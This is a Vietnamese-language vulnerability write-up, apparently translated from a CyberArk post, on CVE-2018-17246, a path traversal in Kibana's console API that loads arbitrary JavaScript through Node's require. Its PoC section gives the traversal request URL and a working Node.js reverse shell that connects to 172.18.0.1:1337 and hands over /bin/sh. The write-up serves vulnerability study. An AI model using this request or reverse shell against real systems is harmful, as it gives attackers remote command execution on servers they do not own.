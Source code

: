 # CVE-2018-17246

---

(Translated from [cyberank.com](https://www.cyberark.com/threat-research-blog/execute-this-i-know-you-have-it/))

---

## Analysis vulnerability

- Lỗ hỏng xuất phát từ : 

![img](assets/kibana_server.png)

****

- API này sẽ require các thư viện mà không có cơ chế kiểm tra dữ liệu đầu vào theo params `apis`

![img](assets/serverjs.png)

- Từ đây có thể khai thác lỗi `Path Travelsal`

![img](assets/logged_error.png)

- Tuy nhiên ở đây vì lí do ở method `api.asJSON` sẽ không trả về json nếu không đọc được object chúng ta truyền vào (lí do xảy ra error ở hình trên) .  Ở đây hông lẽ là `path traversal` blind ⁉🦆

![img](assets/api_js.png)

- Để nâng cấp thêm lỗi này phải phân tích thêm hàm `require` của nodejs

  - Về cơ bản nó khá giống hàm `include` của `php`

  - `Module Require`:

    - Đây là 1 core module của nodejs do đó chỉ cần gọi lên và ko cần khai báo : `require('require')` 
    - Khi node gọi đến require : 
      1. Nó sẽ tìm đến đường dẫn của file import
      2. Sau đó nó sẽ xác định file type của file import
      3. Chuyển dữ liệu vào biến require
      4. Thực thi dữ liệu với code đã load
      5. Nó sẽ không load lại code khi gọi đến biến truyền vào 

    (tạm thời mình chỉ mới hiểu tới đây)

- Tóm gọn : Module `require` sẽ thực thi và trả về object mà module này export ra. Vậy từ đây chúng ta có thể kiếm 1 module nào thực hiện những process để nâng impact . (có thể tắt service , RCE....)

- Một số module :

> **docs_repo.js**

![img](assets/docs_cli.png)

> **cli_plugin/cli.js**

![img](assets/cli_plugin_clijs.png)

- Ở đây có thể nâng cấp lên RCE nhưng cần phải có 1 file call backconnect trên server

---

## PoC RCE

1. Bằng cách kì diệu nào đó có 1 file js trên server
2. Call đến api ``/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../path/to/shell.js``

> **Node Revershell**

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "172.18.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


